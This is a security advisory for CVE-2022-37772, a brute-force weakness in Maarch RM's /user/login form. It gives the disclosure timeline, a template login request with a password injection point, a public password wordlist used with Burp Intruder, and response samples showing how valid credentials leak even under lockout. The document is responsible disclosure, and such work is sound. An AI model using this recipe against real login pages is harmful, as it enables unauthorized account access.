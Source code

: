 # Improper Restriction of Excessive Authentication Attempts

## Description

Improper Restriction of Excessive Authentication Attempts vulnerability exists that could allow unauthorized access when an attacker uses brute force. Affected Products: Maarch RM - all versions.

## Information

- CVE ID: CVE-2022-37772
- Vulnerability Type: Improper Restriction of Excessive Authentication Attempts (CWE-307)
- Vendor of Product: Maarch Xelians
- Affected Product: Maarch RM - all versions
- Affected Component: page: /user/login (POST)
- Editor confirmed: Yes
- Discoverer: {François Mehault Pentester from Orange Cyberdefense France}

# References

- Advisory: https://github.com/Orange-Cyberdefense/CVE-repository
- CVE: CVE-2022-37772
  - (MITRE)
  - (NVD)
- Product site: https://maarch.ovh/maarch-rm/
- Release advisories: https://labs.maarch.org/maarch/maarchRM/-/releases
- ExploitDB: NA

# Approximate Timeline

- 2022/07/18: Vulnerabilities discovered
- 2022/07/29: Vulnerabilities reported to the editor (Maarch Xelians)
- 2022/08/31: Confirmation of vulnerability by the editor

# Technical details

## Improper Restriction of Excessive Authentication Attempts - Identified on Maarch RM 2.8.3, /user/login (POST)

- Vulnerable request :

```
POST /user/login HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
X-Laabs-Csrf: false
Content-Length: 71
Origin: https://target.com
Referer: https://target.com/user/prompt
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"userName":"admin","password":"inject_here","requestPath":"/user/prompt"}
```

- Payload : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt (sent with Burp Intruder)

- Details : it is possible to conduct a brute force attack on the authentication form due to excessive verbose responses from the application, whether or not a lockout policy is active. If a lockout policy is active, the application informs that the user account is locked out upon presentation of valid credentials. If there is no lockout policy, brute force is by definition possible.

- Privileges: No privilege is required

- error generated with invalid credentials (with or without lockout policy)

```
HTTP/1.1 401 Unauthorized
Date: Mon, 18 Jul 2022 09:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username and / or password invalid in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 82
Connection: close
Content-Type: application/json

{"status":false,"message":"Nom d\u0027utilisateur et \/ ou mot de passe invalide"}
```

- error generated with lockout policy and valid credentials

```
HTTP/1.1 403 Forbidden
Date: Mon, 18 Jul 2022 10:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username  is locked in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 68
Connection: close
Content-Type: application/json

{"status":false,"message":"L\u0027utilisateur  est verrouill\u00e9"}
```

- error generated without lockout policy and valid credentials

```
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 14:53:57 GMT
Server: Apache
Set-Cookie: LAABS-AUTH=<redacted>; expires=Mon, 18-Jul-2022 15:53:57 GMT; Max-Age=3600; path=/; secure; HttpOnly
Set-Cookie: LAABS-CSRF=<redacted>; path=/; secure
X-Laabs-UserStory: app/authentication
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 53
Connection: close
Content-Type: application/json

{"status":true,"message":"Utilisateur connect\u00e9"}
```
